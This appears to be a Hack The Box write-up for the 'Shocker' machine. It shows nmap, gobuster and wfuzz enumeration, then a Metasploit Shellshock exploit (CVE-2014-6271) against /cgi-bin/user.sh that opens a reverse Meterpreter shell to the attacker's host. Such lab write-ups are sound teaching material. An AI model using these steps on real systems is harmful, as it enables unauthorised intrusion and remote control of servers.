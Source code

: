# htb-shocker
This is my [Hack the box](https://www.hackthebox.eu/)'s Shoker machine write-up.

## Machine
OS: GNU/Linux

IP: 10.10.10.56

Difficulty: Easy

## Enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN shocker.nmap 10.10.10.56`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:~/htb/shoker# nmap -sV -sC -oN shocker.nmap 10.10.10.56
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-23 14:54 EDT
Nmap scan report for 10.10.10.56
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.06 seconds
```
The page itself just has a picture that doesn't really say much. Inspecting the page using dev tools doesn't give any extra information either.

Enumerate directories of the webpage using [gobuster](https://github.com/OJ/gobuster):
```
root@kali:/usr/share/wordlists# gobuster dir --url 10.10.10.56 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt --timeout 20s
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        20s
===============================================================
2020/05/23 15:18:57 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2020/05/23 15:19:39 Finished
===============================================================
```

Duckduckducking a bit noticed that the machine's name refers to the Shell Shock vulnerability (CVE-2014-6271), which is related to the `/cgi-bin` directory.

Search on Metasploit:
```
msf > search shellshock

Matching Modules
================

   Name                                               Disclosure Date  Rank       Description
   ----                                               ---------------  ----       -----------
   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   auxiliary/server/dhclient_bash_env                 2014-09-24       normal     DHCP Client Bash Environment Variable Code Injection (Shellshock)
   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Advantech Switch Bash Environment Variable Code Injection (Shellshock)
   exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  IPFire Bash Environment Variable Injection (Shellshock)
   exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  CUPS Filter Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Legend Perl IRC Bot Remote Code Execution
   exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
   exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
   exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  Dhclient Bash Environment Variable Injection (Shellshock)
   exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     Qmail SMTP Bash Environment Variable Injection (Shellshock)
```

`multi/http/apache_mod_cgi_bash_env_exec` is the one we were looking for. But this one needs the URI of some script that may be under `/cgi-bin`. 


After several attempts with [wfuzz](https://github.com/xmendez/wfuzz), this one is good for finding `user.sh` was there:

```
root@kali:~# wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt  http://10.10.10.56/cgi-bin/FUZZ.sh
```

Now we got the script it's possible to exploit the vulnerability. These are the final options set:
```
   Name            Current Setting                     Required  Description
   ----            ---------------                     --------  -----------
   CMD_MAX_LENGTH  2048                                yes       CMD max line length
   CVE             CVE-2014-6271                       yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent                          yes       HTTP header to use
   METHOD          GET                                 yes       HTTP method to use
   Proxies                                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST           10.10.10.56                         yes       The target address
   RPATH           /bin                                yes       Target PATH for binaries used by the CmdStager
   RPORT           80                                  yes       The target port (TCP)
   SRVHOST         0.0.0.0                             yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT         8080                                yes       The local port to listen on.
   SSL             false                               no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                             no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       http://10.10.10.56/cgi-bin/user.sh  yes       Path to CGI script
   TIMEOUT         5                                   yes       HTTP read response timeout (seconds)
   URIPATH                                             no        The URI to use for this exploit (default is random)
   VHOST                                               no        HTTP server virtual host
```

And it's possible to get a shell by exploiting it:
```bash
msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.4:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (861480 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.56:57908) at 2020-05-24 07:35:52 -0400
```
